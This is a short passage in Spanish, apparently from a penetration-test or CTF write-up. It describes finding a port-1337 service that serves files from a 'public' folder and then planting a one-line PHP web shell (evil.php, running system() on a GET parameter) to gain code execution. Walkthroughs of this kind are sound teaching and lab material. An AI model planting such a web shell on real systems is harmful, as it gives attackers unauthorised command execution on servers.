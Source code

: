 Se identificó que la página del puerto `1337` refleja el contenido de los archivos que se encuentren en la carpeta `public` de la aplicación. Como ejemplo se creó un archivo de prueba.

![Archivo reflejado en los servicios](images/enum_3.png)


## Explotación


### RCE Web Shell


Al identificar el directorio `public` en el puerto 1337 y ver que se estaban reflejando los archivos, se utilizó una web shell en php para poder lograr la ejecución de código:

```php title="evil.php"
<?php system($_GET["cmd"]);?>
```

![Creación de Web Shell](images/exploit_1.png)

